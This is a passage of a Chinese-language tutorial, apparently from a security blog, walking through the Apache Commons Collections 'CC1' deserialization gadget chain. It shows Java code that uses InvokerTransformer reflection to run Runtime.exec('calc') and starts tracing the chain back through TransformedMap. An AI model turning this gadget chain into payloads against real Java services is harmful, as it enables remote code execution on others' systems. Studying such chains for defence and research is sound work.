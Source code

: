 因为我们发现的`InvokerTransformer`能够通过反射来调用方法，所以我们尝试能不能用`InvokerTransformer`里面的`transform`来执行命令

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Method;

public class CC1Test {
    public static void main(String[] args) throws Exception{
//      Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//      Class c = Runtime.class;
//      Method execMethod = c.getMethod("exec",String.class);
//      execMethod.invoke(r,"calc");

//      危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
//      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

    }
}
```

### 调用链：

#### 后半条链：

[![](assets/1701612311-f7d6f6f3895634dc336c35f680c39849.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712234956-bfddba44-20cb-1.png)

*   我们已经找到了InvokerTransformer.transform中能够调用危险方法，所以我们就需要往前找一个能调用transform的类：
*   这里我们要找的就是对应的不同名字调用transform，这样我们就能再往前找不同的类，所以这里transform调用transform的就没有很大的价值了

[![](assets/1701612311-c04fcf45a6ca015ebfc2abf1d465fe5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235004-c4a559ec-20cb-1.png)

*   然后我们找到了这样一个地方来进行`transform`的调用，如果`valueTransformer`能够控制为我们的`Invokertransformer`，我们就可以利用`checkSetValue`调用后面的危险方法：

[![](assets/1701612311-3afe8a577e0809ea4b641bc3fecef30c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235010-c81586b0-20cb-1.png)

*   所以我们来跟进一下对应的`valueTransformer`：

```plain
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

*   因为我们发现`TransformedMap`是一个`protected`方法，所以我们在他自己类中找哪个地方能够调用`TransformedMap`：
